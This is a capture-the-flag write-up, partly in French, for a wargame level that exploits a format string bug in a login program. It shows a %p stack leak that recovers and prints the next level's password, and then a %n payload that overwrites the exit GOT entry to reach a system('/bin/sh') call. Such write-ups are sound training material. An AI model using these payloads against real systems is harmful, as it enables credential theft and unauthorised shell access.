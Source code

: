 The provided executable expect a username and a password.

We decompiled it and we can see the program opening the level03 password.
Trying to run the program in gdb will lead to failure because gdb doesn't have the same user level access,
so we need to operate only through the standar input.

This program use the password from of the level03 user and expect to the user to provide it in order to be get a shell with the user level03 access.

So it appear quite secure.

However we can notice that the user name is printed through a printf call if it's the wrong password. We gone use the format string vulnerability.

## First way to do it:

This attack will print the raw memory of the buffers in order to get the read password.

```bash
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
--[ Password: *****************************************
0x7fffffffe4f0.(nil).0x25.0x2a2a2a2a2a2a2a2a.0x2a2a2a2a2a2a2a2a.0x7fffffffe6e8.0x1f7ff9a08.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x1002e7025.(nil).0x756e505234376848.0x45414a3561733951.0x377a7143574e6758.0x354a35686e475873.0x48336750664b394d.0xfeff00.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70. does not have access!
```

We can see our patern in the output where `70252e` correspond to `p%.`
We can ignore our pattern until the string end.
The data after our payload is the password read because the memory layout of the buffers start with the password buffer followed by the read_buffer.
We also know that the maximum number of character read is 41 so we can ignore what is after.

0x756e505234376848.0x45414a3561733951.0x377a7143574e6758.0x354a35686e475873.0x48336750664b394d.0xfeff00

Now we can reverse each hexadecimal chunk in order to get them back to big endian then convert it to ascii string.

```
48 75 6e 50 52 34 37 68 -> Hh74RPnu
51 45 41 4a 35 61 73 39 -> Q9sa5JAE
58 37 7a 71 43 57 4e 67 -> XgNWCqz7
73 35 4a 35 68 6e 47 58 -> sXGnh5J5
4d 48 33 67 50 66 4b 39 -> M9KfPg3H
```

The last three bytes are ignore because it correspond to the end of the string.
00 ff fe

So the password is:

```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

## Deuxieme maniere d'y arriver:

On va utiliser printf pour ecrire dans une adresse de notre choix.
Dans notre cas , dans la fonction main on a un appel a `system "/bin/sh"`

```
0x400a85 <main+625>     mov    $0x400d32,%edi
0x400a8a <main+630>     callq  0x4006b0 <system@plt>
```

```
x/s 0x400d32
0x400d32:        "/bin/sh"
```

On notifie aussi un appel a exit plus bas dans le code

```
0x400ab1 <main+669>     mov    $0x1,%edi
0x400ab6 <main+674>     callq  0x400710 <exit@plt>
```

On va tenter de remplacer l'appel exit@plt a un appel a notre fonction main a l'adresse `0x400a85` soit en decimal 4196997

On disas exit@plt

```
disas exit
#0x601228
```

On remarque qu'en affichant les prochains octets de la stack on tombe rapidement sur le deuxieme buffer:

```bash
./level0
username: %x %x %x %x %x %x %x %x %x %x
password: AAAA
ffffe580 0 41 2a2a2a2a 2a2a2a2a ffffe778 f7ff9a08 41414141 0 0 0 0 0 0 does not have access!
```

Nous avons donc toutes les ressources necessaires pour rediriger l'execution du code vers la portion qui nous interesse:

```bash
(python -c 'print "%4196997c%8$n" + "\n" + "\x28\x12\x60"' ; cat) | ./level02
```

```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
